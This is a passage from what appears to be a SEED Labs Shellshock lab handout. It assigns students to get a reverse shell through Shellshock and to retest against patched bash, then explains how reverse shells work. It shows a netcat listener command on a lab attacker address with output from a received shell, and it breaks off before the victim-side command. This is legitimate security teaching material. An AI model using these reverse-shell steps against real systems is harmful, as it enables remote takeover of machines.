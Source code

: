 ### 3.4 Task 4: Getting a Reverse Shell via Shellshock Attack

The Shellshock vulnerability allows attacks to run arbitrary commands on the target machine. In real attacks,
instead of hard-coding the command in the attack, attackers often choose to run a shell command, so they
can use this shell to run other commands, for as long as the shell program is alive. To achieve this goal,
attackers need to run a reverse shell.
Reverse shell is a shell process started on a machine, with its input and output being controlled by
somebody from a remote computer. Basically, the shell runs on the victim’s machine, but it takes input
from the attacker machine and also prints its output on the attacker’s machine. Reverse shell gives attackers
a convenient way to run commands on a compromised machine. Detailed explanation of how to create a
reverse shell can be found in the SEED book. We also summarize the explanation in Section 4. In this task,
you need to demonstrate how you can get a reverse shell from the victim using the Shellshock attack.

### 3.5 Task 5: Using the Patched Bash

Now, let us use a bash program that has already been patched. The program /bin/bash is a patched
version. Please replace the first line of the CGI programs with this program. Redo Task 3 and describe your
observations.

## 4 Guidelines: Creating Reverse Shell

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connec-
tion, so the shell gets its input from the connection, and prints out its output also to the connection. At the
other end of the connection is a program run by the attacker; the program simply displays whatever comes

from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.
A commonly used program by attackers is _netcat_, which, if running with the _"-l"_ option, becomes
a TCP server that listens for a connection on the specified port. This server program basically prints out
whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the
following experiment, _netcat_(ncfor short) is used to listen for a connection on port _9090_ (let us focus
only on the first line).
```
Attacker(10.0.2.6):$ nc -nv -l 9090  <- **Waiting for reverse shell**
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$  <- **Reverse shell from 10.0.2.5.**
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet **10.0.2.5** netmask 255.255.255.0 broadcast 10.0.2.
...
```
The above _nc_ command will block, waiting for a connection. We now directly run the following bash
program on the Server machine _(10.0.2.5)_ to emulate what attackers would run after compromising the